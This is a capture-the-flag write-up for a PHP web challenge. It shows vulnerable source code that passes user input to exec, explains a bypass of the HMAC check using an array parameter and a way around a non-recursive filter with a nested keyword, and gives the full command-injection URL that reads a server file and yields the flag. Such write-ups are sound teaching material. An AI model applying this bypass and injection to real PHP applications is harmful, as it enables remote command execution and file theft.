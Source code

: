 # Buggy PHP
**category:** web  
**points:** 469    
**solves:** 29    
**author:** Dungeon_Master

## Description
> IP : http://165.22.179.69/ pass through the php filters to get the flag

## Solution

The code of the challenge is the following:
```php
 <?php
require('req.php');
ini_set('display_errors', 1);
ini_set('display_startup_errors', 1);
error_reporting(E_ALL);
show_source("index.php");
if (empty($_GET['hash']) || empty($_GET['cmd']) || empty($_GET['tmp'])){
    exit;
}

$key = getenv('KEY');

if(isset($_GET['tmp']))
    $key = hash_hmac('sha256',$_GET['tmp'],$key);

$hash = hash_hmac('sha256',$_GET['cmd'],$key);

if ($hash !== $_GET['hash']) {
    echo "NO flag for you";
    exit;
}

$cmd = preg_replace($filter, '', $_GET['cmd']);
echo exec("cmd ".$cmd);
?> 
```

The trick here is that **hash_hmac** return NULL when the second argument is an array, 
So you make $_GET['tmp'] to an array so that the $key will be equal to NULL
After that you just need to calculate the hash_hmac of your command with a NULL key like this :
```php
 <?php
$cmd = "||babase64se64 req.*";
$hash = hash_hmac('sha256',$cmd,$key);
echo $hash;
?> 
```
Next the command we need to run is `||babase64se64 req.*` the `||` are to run another command that `cmd` and since base64 is remove with preg_replace we just need to write base64 inside of base64, the one inside the other will be removed and the rest will for base64 since the replace is not reccursive
The command will print the base64 of the req.php file.

here is the final payload : 
```
http://165.22.179.69/?hash=eedbd93eda4d5ff61abdba29c0525ab410c098b4601e1a0f12e6743b84dad07f&tmp[]=&cmd=%7C%7Cbabase64se64%20req.*
```


![](https://i.imgur.com/X8JKfj4.png)

That gives `YjAwdDJyb290e0J1OTl5X3BIcF9DaDRsbDNuOTNzfSc7Cj8+` which base64 decoded is :
```
b00t2root{Bu99y_pHp_Ch4ll3n93s}'; 
?>
```

**Flag : b00t2root{Bu99y_pHp_Ch4ll3n93s}**
